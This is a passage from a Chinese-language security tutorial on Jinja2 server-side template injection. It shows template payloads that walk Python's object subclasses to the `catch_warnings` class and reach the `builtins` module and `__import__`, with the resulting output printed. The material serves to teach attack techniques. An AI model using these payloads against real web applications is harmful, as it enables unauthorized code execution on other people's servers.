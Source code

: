 当我们使用这种方法时，`object`类的所有子类都能对我们开放！现在，我们只需要在这些类中查找可以用于命令执行的方法。让我们探索一种可能的代码执行方式。在继续之前，请记住，并非每个应用程序的 Python 环境都会有相同的类。此外，接下来我将讨论的有效载荷可能并不适用于所有目标应用程序。

`__import__`函数是 Python 的内建函数，可以用来导入模块。但由于 Jinja2 阻止了对它的直接访问，你需要通过`builtins`模块来访问它。这个模块提供对 Python 所有内建类和函数的直接访问。大多数 Python 模块都有一个`__builtins__`属性，指向内建模块，因此你可以通过引用`__builtins__`属性来恢复`builtins`模块。

在`[].__class__.__bases__[0].__subclasses__()`的所有子类中，有一个名为`catch_warnings`的类。我们将使用这个子类来构建我们的漏洞利用。为了找到`catch_warnings`子类，可以在模板代码中注入一个循环来查找它：

```
1 {% for x in [].__class__.__bases__[0].__subclasses__() %}2 {% if 'catch_warnings' in x.__name__ %}3 {{x()}}
{%endif%}
{%endfor%}
```

这个循环遍历`[].__class__.__bases__[0].__subclasses__()`中的所有类，并找到名字中包含字符串`catch_warnings`的类。然后它实例化该类的对象。`catch_warnings`类的对象具有一个名为`_module`的属性，它指向`warnings`模块。

最后，我们使用对模块的引用来引用`builtins`模块：

```
{% for x in [].__class__.__bases__[0].__subclasses__() %}
{% if 'catch_warnings' in x.__name__ %}
{{x()._module.__builtins__}}
{%endif%}
{%endfor%}
```

你应该看到返回的内建类和函数列表，其中包括`__import__`函数：

```
{'__name__': 'builtins', '__doc__': "Built-in functions, exceptions, and other objects.\n\nNoteworthy: None is the 'nil' object; Ellipsis represents '...' in slices.", '__package__': '', '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': ModuleSpec(name='builtins', loader=<class '_frozen_importlib.BuiltinImporter'>), '__build_class__': <built-in function __build_class__>, **'__import__': <built-in function __import__>,** 'abs': <built-in function abs>, 'all': <built-in function all>, 'any': <built-in function any>, 'ascii': <built-in function ascii>, 'bin': <built-in function bin>, 'breakpoint': <built-in function breakpoint>, 'callable': <built-in function callable>, 'chr': <built-in function chr>, 'compile': <built-in function compile>, 'delattr': <built-in function delattr>, 'dir': <built-in function dir>, 'divmod': <built-in function divmod>, 'eval': <built-in function eval>, 'exec': <built-in function exec>, 'format': <built-in function format>, 'getattr': <built-in function getattr>, 'globals': <built-in function globals>, 'hasattr': <built-in function hasattr>, 'hash': <built-in function hash>, 'hex': <built-in function hex>, 'id': <built-in function id>, 'input': <built-in function input>, 'isinstance': <built-in function isinstance>, 'issubclass': <built-in function issubclass>, 'iter': <built-in function iter>, 'len': <built-in function len>, 'locals': <built-in function locals>, 'max': <built-in function max>, 'min': <built-in function min>, 'next': <built-in function next>, 'oct': <built-in function oct>, 'ord': <built-in function ord>, 'pow': <built-in function pow>, 'print': <built-in function print>, 'repr': <built-in function repr>, 'round': <built-in function round>, 'setattr': <built-in function setattr>, 'sorted': <built-in function sorted>, 'sum': <built-in function sum>, 'vars': <built-in function vars>, 'None': None, 'Ellipsis': Ellipsis, 'NotImplemented': NotImplemented, 'False': False, 'True': True, 'bool': <class 'bool'>, 'memoryview': <class 'memoryview'>, 'bytearray': <class 'bytearray'>, 'bytes': <class 'bytes'>, 'classmethod': <class 'classmethod'>, ...}
```
